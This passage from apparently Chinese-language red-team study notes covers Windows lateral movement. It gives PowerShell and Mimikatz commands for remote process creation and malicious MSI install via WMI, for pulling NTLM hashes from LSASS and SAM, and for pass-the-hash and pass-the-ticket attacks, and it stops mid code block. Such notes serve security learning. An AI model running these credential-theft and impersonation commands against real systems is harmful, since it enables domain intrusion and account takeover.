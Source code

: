 - **通过 Windows 管理规范 (Via WMI)**：
    
    - **概述 (Overview)**: WMI 是一种功能强大的管理接口，可通过 DCOM (RPC) 或 WinRM 协议进行远程访问。
    - **创建远程进程 (Create Remote Process)**: 调用 `Win32_Process` 类的 `Create` 方法。
        
        PowerShell
        
        ```
        # 假设 $Session 是已建立的 CimSession
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = "calc.exe"}
        ```
        
    - **安装 MSI 包 (Install MSI Package)**: 调用 `Win32_Product` 类的 `Install` 方法，可用于部署恶意 MSI 安装包。
        
        PowerShell
        
        ```
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\evil.msi"}
        ```
        

---

#### 利用备用认证凭据 (Leveraging Alternate Credentials)

当无法获取明文密码时，可以利用从内存或系统中提取的哈希或票据进行认证。

- **传递哈希 (Pass-the-Hash, PtH)**：
    
    - **基本原理 (Fundamentals)**: 在 NTLM 认证中，客户端使用密码的 NTLM 哈希来加密挑战。因此，只要拥有 NTLM 哈希，就无需知道明文密码即可完成认证。
    - **哈希提取 (Hash Extraction)**: 使用 Mimikatz 等工具从 LSASS 进程内存 (`sekurlsa::msv`) 或 SAM 数据库 (`lsadump::sam`) 中提取。
    - **执行攻击 (Execution)**:
        - **Mimikatz**: 使用 `sekurlsa::pth` 命令启动一个新进程，该进程的网络活动将使用指定的哈希进行认证。
            
            PowerShell
            
            ```
            sekurlsa::pth /user:bob /domain:corp /ntlm:deadbeef... /run:cmd.exe
            ```
            
        - **Linux 工具**: Impacket (`psexec.py`), FreeRDP (`xfreerdp`), `evil-winrm` 等工具均原生支持使用 `-hashes` 或 `/pth` 参数进行 PtH 攻击。
- **传递票据 (Pass-the-Ticket, PtT)**：
    
    - **基本原理 (Fundamentals)**: Kerberos 认证依赖于票据（TGTs 和 TGSs）。攻击者可以从 LSASS 内存中窃取合法的 Kerberos 票据，并将其注入到自己的会话中，从而冒充票据的合法所有者。
    - **票据提取与注入 (Ticket Extraction and Injection)**:
        
        PowerShell
        
        ```
        # 1. (需要SYSTEM权限) 导出内存中的所有 Kerberos 票据为 .kirbi 文件
        privilege::debug
        sekurlsa::tickets /export
        
